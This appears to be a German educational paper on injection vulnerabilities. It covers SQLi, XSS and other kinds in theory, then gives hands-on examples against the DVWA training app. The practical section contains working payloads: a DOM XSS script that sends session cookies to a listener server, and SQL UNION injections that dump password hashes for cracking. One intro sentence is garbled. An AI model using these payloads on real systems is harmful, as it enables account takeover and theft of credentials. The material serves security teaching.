








# Injection

## Inhaltsverzeichniss
- [Injection](#injection)
  - [Inhaltsverzeichniss](#inhaltsverzeichniss)
  - [Einleitung](#einleitung)
  - [Theoretischer Anblick](#theoretischer-anblick)
    - [Grundlagen](#grundlagen)
    - [Arten von Injections](#arten-von-injections)
      - [SQL Injection (SQLi):](#sql-injection-sqli)
      - [Cross-Site Scripting (XSS):](#cross-site-scripting-xss)
      - [Command Injection:](#command-injection)
      - [LDAP Injection:](#ldap-injection)
      - [XML Injection:](#xml-injection)
    - [Warum (und wie) entstehen Injection-Schwachstellen](#warum-und-wie-entstehen-injection-schwachstellen)
      - [Direkte Einbindung von Benutzereingaben:](#direkte-einbindung-von-benutzereingaben)
      - [Fehlende oder unzureichende Eingabevalidierung:](#fehlende-oder-unzureichende-eingabevalidierung)
      - [Unsichere Funktionen und Methoden:](#unsichere-funktionen-und-methoden)
      - [Unzureichendes Escaping und Sanitizing:](#unzureichendes-escaping-und-sanitizing)
      - [Komplexe Interaktionen zwischen Systemen:](#komplexe-interaktionen-zwischen-systemen)
  - [Praktische Beispiele](#praktische-beispiele)
    - [XSS](#xss)
      - [Erklärung](#erklärung)
      - [Advanced](#advanced)
    - [SQL](#sql)
      - [Erklärung](#erklärung-1)
      - [Advanced](#advanced-1)


## Einleitung
Injection ist eine Sicherheitslücke in einem Programm, die es Angreifern ermöglicht, schädlichen Code auf dem Server oder den Geräten anderer Nutzer auszuführen. Diese Schwachstellen entstehen oft durch unzureichend geprüfte und unsichere Benutzereingaben, die direkt in Systeme wie Datenbanken oder Betriebssysteme eingebettet werden.

In dieser Arbeit werden wir die verschierheitslücken effektiv zu verhindern.
denen Arten von Injection-Schwachstellen untersuchen, ihre Funktionsweise erklären und praktische Schutzmaßnahmen vorstellen, um solche Siche

## Theoretischer Anblick
### Grundlagen
Injection-Schwachstellen gehören zu den am häufigsten ausgenutzten Sicherheitslücken in der Softwareentwicklung. Sie entstehen, wenn ein Programm ungeprüfte Benutzereingaben direkt in eine Abfrage oder einen Befehl einbettet. Dadurch kann ein Angreifer schädlichen Code einschleusen und ausführen lassen, was zu unautorisiertem Zugriff auf Daten, Datenmanipulation oder vollständiger Kontrolle über das betroffene System führen kann.

Bei einem Injection-Angriff nutzt ein Angreifer Schwachstellen in einem Programm aus, um bösartigen Code in eine Eingabe zu injizieren. Diese Eingabe wird dann vom System als legitimer Befehl interpretiert. Ein klassisches Beispiel hierfür ist die SQL Injection (SQLi), bei der ein Angreifer SQL-Befehle in ein Formularfeld einer Webanwendung einschleust. Wenn die Anwendung diese Eingabe ohne ausreichende Überprüfung direkt in eine SQL-Abfrage einfügt, kann der Angreifer ungewollte Aktionen auf der Datenbank ausführen.

### Arten von Injections

Injection-Schwachstellen können in gross und klein auftreten, je nachdem, welche Art von System oder Datenverarbeitung sie betreffen. Hier sind die häufigsten Arten von Injection-Angriffen:

#### SQL Injection (SQLi):
SQL Injection ist eine der bekanntesten und am weitesten verbreiteten Arten von Injection-Angriffen. Sie zielt auf Datenbanken ab, indem sie schädliche SQL-Befehle in Abfragen einfügt. Angreifer können dadurch Daten auslesen, verändern oder löschen sowie administrative Befehle ausführen. Ein Beispiel wäre das Einschleusen eines ' OR '1'='1-Statements, um unautorisierten Zugriff auf Daten zu erlangen.

#### Cross-Site Scripting (XSS):
Bei Cross-Site Scripting wird bösartiger JavaScript-Code in eine Webseite eingeschleust, der dann im Browser des Opfers ausgeführt wird. Dies kann dazu führen, dass Benutzerdaten wie Cookies gestohlen oder unerwünschte Aktionen im Namen des Benutzers ausgeführt werden. XSS kann entweder durch reflektierte Eingaben (bei denen die bösartige Nutzlast sofort zurückgegeben wird) oder durch persistente Eingaben (bei denen die Nutzlast gespeichert und später anderen Benutzern angezeigt wird) erfolgen.

#### Command Injection:
Command Injection ermöglicht es Angreifern, beliebige Systembefehle auf dem Host-Betriebssystem auszuführen. Dies kann zu vollständiger Kontrolle über das betroffene System führen. Ein Beispiel wäre die Einbindung von Benutzereingaben in ein Betriebssystemkommando ohne ausreichende Prüfung, wodurch der Angreifer zusätzliche Befehle anhängen kann.

#### LDAP Injection:
LDAP Injection betrifft Anwendungen, die LDAP-Abfragen (Lightweight Directory Access Protocol) verarbeiten. Angreifer können manipulierte Eingaben in LDAP-Abfragen einfügen, um unautorisierten Zugriff auf Verzeichnisdienste zu erlangen oder sensible Informationen auszulesen.

#### XML Injection:
XML Injection tritt auf, wenn bösartiger XML-Code in eine XML-Datenstruktur eingefügt wird. Dies kann zu ungewollten XML-Operationen, wie z.B. Manipulationen an der XML-Datenstruktur oder unerwünschten Datenzugriffen, führen. Ein Angreifer könnte beispielsweise durch Einfügen von zusätzlichen XML-Tags die Struktur und Bedeutung der Daten verändern.

### Warum (und wie) entstehen Injection-Schwachstellen
Injection-Schwachstellen entstehen hauptsächlich durch unsichere Programmierpraktiken und unzureichende Validierung von Benutzereingaben. Hier sind die Hauptgründe und Mechanismen, die zur Entstehung dieser Schwachstellen führen:

#### Direkte Einbindung von Benutzereingaben:
Viele Anwendungen betten Benutzereingaben direkt in Abfragen oder Befehle ein, ohne diese vorher ausreichend zu überprüfen. Ein klassisches Beispiel ist die Konstruktion von SQL-Abfragen, bei denen Benutzereingaben ohne Validierung eingefügt werden:

```sql
query = "SELECT * FROM users WHERE username = '" + userInput + "';"
```

Angreifer können solche Eingaben manipulieren, um schädliche Befehle einzuschleusen.

#### Fehlende oder unzureichende Eingabevalidierung:
Ohne gründliche Überprüfung können schädliche Daten durch unsichere Eingabefelder gelangen. Die Validierung sollte sicherstellen, dass Eingaben nur das erwartete Format und die erwarteten Werte enthalten, um das Einschleusen von schädlichem Code zu verhindern.

#### Unsichere Funktionen und Methoden:
Die Verwendung von unsicheren Funktionen oder Methoden, die anfällig für Injection sind, erhöht das Risiko. Beispiele sind Funktionen, die direkte Systemaufrufe ermöglichen oder SQL-Abfragen ohne Platzhalter und Bindungsparameter erzeugen.

#### Unzureichendes Escaping und Sanitizing:
Wenn spezielle Zeichen nicht richtig escaped oder bereinigt werden, können sie von der Anwendung als Befehle interpretiert werden. Das korrekte Escaping neutralisiert die Bedeutung solcher Zeichen und verhindert, dass sie als Teil des Codes interpretiert werden.

#### Komplexe Interaktionen zwischen Systemen:
Anwendungen, die Daten zwischen verschiedenen Systemen austauschen (z.B. Webanwendungen, die Datenbanken und Betriebssysteme ansprechen), erhöhen die Komplexität und damit auch die Anfälligkeit für Injection. Jede Schnittstelle, die Benutzereingaben verarbeitet, stellt ein potenzielles Risiko dar.

Zusammengefasst entstehen Injection-Schwachstellen durch die Kombination von unsicheren Programmierpraktiken, unzureichender Validierung und unsachgemäßer Handhabung von Benutzereingaben. Um diese Schwachstellen zu vermeiden, sollten Entwickler bewährte Sicherheitspraktiken anwenden, wie die Verwendung parametrisierter Abfragen, gründliche Eingabevalidierung und das Escaping von speziellen Zeichen.

## Praktische Beispiele
Die Praktischen Beispiele werden an DVWA gezeigt. DVWA (Damn Vulnerable Web Application) ist eine bewusst unsicher gestaltete Web-Applikation. Es wird eine Vielzahl von Sicherheitslücken simuliert, um als Übungsplattform für Penetrationstests zu dienen.

### XSS
DVWA bietet verschiedene simulierte Arten von XSS-Angriffen an. In diesem Text werden wir uns die DOM-basierte XSS-Schwachstelle genauer ansehen.

#### Erklärung
Eine DOM-XSS Schwachstelle entsteht, wenn JavaScript-Code auf der Clientseite manipuliert wird, um schädlichen Code auszuführen. Dies geschieht direkt im Document Object Model (DOM) des Browsers. In DVWA wird dies durch ein Dropdown-Menü zur Auswahl einer Sprache demonstriert.



Wenn eine Sprache ausgewählt wird, ändert sich die URL, um die ausgewählte Sprache zu enthalten. In diesem Beispiel würde die URL wie folgt aussehen:
http://127.0.0.1:4280/vulnerabilities/xss_d/?default=English

Beim Laden der Webseite wird der Wert von *default* genommen und ohne Überprüfung in das HTML-Dokument eingefügt. Wenn man die URL so ändert, dass sie einen Script-Tag enthält, würde dieser ausgeführt werden:
http://127.0.0.1:4280/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(%27test%27)%3C/script%3E



#### Advanced
Da wir JavaScript-Tags einbinden können auf dem DOM, können wir auch einen anderen Server ansprechen. Dafür müssen wir zuerst einen Server starten. Wir können recht einfach mithilfe von Docker und HTTP-Server von Apache einen lokalen Server starten. Danach müssen wir nur noch eine JavaScript Datei hinzufügen, die folgenden Code ausführt:
```js
function getimg() {
    let img = document.createElement('img');
    img.src = 'http://127.0.0.1:9999/' + document.cookie;
    document.body.appendChild(img);
}

getimg();
```

Dieser Code erstellt ein Bild das von ausem Server geladen wird, mit den Cookies in der URL. Nun müssen wir nur noch die JavaScript Datei aufrüfen mit diesem URL:
http://127.0.0.1:4280/vulnerabilities/xss_d/?default=<script src="http://localhost:9999/a.js"></script>

Dadurch bekommen wir in den Logs die folgende Meldung:


Hier sehen wir auch die SessionID von PHP. Diese könnten wir nun Manuell in einem Browser setzen und den Account übernehmen.

### SQL
DVWA bietet auch hier verschiedene simulierte Arten von SQL-Injection an. Wir werden uns sowohl die klassische als auch die blinde SQL-Injection ansehen.

#### Erklärung

In DVWA gibt es ein simples Eingabefeld, welches Benutzern ermöglicht, eine Benutzer-ID einzugeben, um Informationen aus der Datenbank abzurufen.



Im Hintergrund wird die ID genommen und folgendermassen genutzt:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

Der User-Input wird dabei nicht geprüft. Dadurch entsteht eine Sicherheitslücke, die es einem Angreifer ermöglicht, schädlichen SQL-Code einzuschleusen. Ein einfaches Beispiel für eine SQL-Injection-Attacke wäre die Eingabe von:

```sql
1' OR '1'='1
```

Wenn dieser Code in das Eingabefeld eingegeben wird, sieht die resultierende SQL-Abfrage folgendermaßen aus:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

Da die Bedingung OR '1'='1' immer wahr ist, gibt die Abfrage alle Datensätze in der Tabelle users zurück. Auf diese Weise kann ein Angreifer Zugriff auf sämtliche Benutzerdaten erlangen, die in der Datenbank gespeichert sind.

#### Advanced
Jetzt da wir wissen wie die SQL-Befehle aufgebaut werden, können wir dies weiter nutzen um die Passwörter von jedem User herauszulesen.

Um damit zu beginnen, müssen wir zuerst die Datenbank Struktur analysieren, um genauere Befehle zu erstellen. Mithilfe von der MariaDB Dokumentation, finden wir heraus, dass alle Tabellennamen gespeichert werden unter 'information_schema.COLUMNS'. Wir können diese Daten herauslesen, indem wir folgendes in das Input-Feld eingeben:

```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

Dadurch bekommen wir folgenden Output:



Darunter gibt es auch die *password*-Spalte unter der *users*-Tabelle:



Jetzt können wir mit dem folgenden Befehl alle Passwörter von allen User holen:

```sql
%' or '0'='0' union select user, password from dvwa.users #
```



Und von hier müssen wir nur noch die gehashten Passwörter knacken mit einer Rainbowtable:



